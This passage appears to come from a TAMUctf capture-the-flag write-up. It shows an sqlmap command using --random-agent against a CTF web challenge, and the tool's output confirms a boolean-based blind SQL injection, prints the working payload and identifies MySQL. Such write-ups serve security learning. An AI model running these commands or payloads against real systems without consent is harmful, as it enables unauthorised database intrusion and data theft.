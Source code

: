 The easy way to bypass this was using the `--random-agent` option:
```console
root@kali:/media/sf_CTFs/tamu/# sqlmap -u http://web2.tamuctf.com/Search.php?Search=1 --random-agent  --dbms=MySQL --technique=B --level 5 --risk 3
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:44:20

[22:44:20] [INFO] fetched random HTTP User-Agent header value 'Opera/9.00 (Windows NT 5.2; U; pl)' from file '/usr/share/sqlmap/txt/user-agents.txt'
[22:44:25] [INFO] testing connection to the target URL
[22:44:26] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[22:44:26] [INFO] testing if the target URL content is stable
[22:44:26] [INFO] target URL content is stable
[22:44:26] [INFO] testing if GET parameter 'Search' is dynamic
[22:44:27] [WARNING] GET parameter 'Search' does not appear to be dynamic
[22:44:27] [WARNING] heuristic (basic) test shows that GET parameter 'Search' might not be injectable
[22:44:27] [INFO] testing for SQL injection on GET parameter 'Search'
[22:44:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:45:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[22:45:08] [INFO] GET parameter 'Search' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --string="see")
[22:45:08] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[22:45:08] [INFO] checking if the injection point on GET parameter 'Search' is a false positive
GET parameter 'Search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 163 HTTP(s) requests:
---
Parameter: Search (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: Search=-4471' OR 9364=9364-- tPIF
---
[22:45:21] [INFO] testing MySQL
[22:45:21] [INFO] confirming MySQL
[22:45:22] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.0
[22:45:22] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 130 times
[22:45:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/web2.tamuctf.com'

[*] shutting down at 22:45:22
```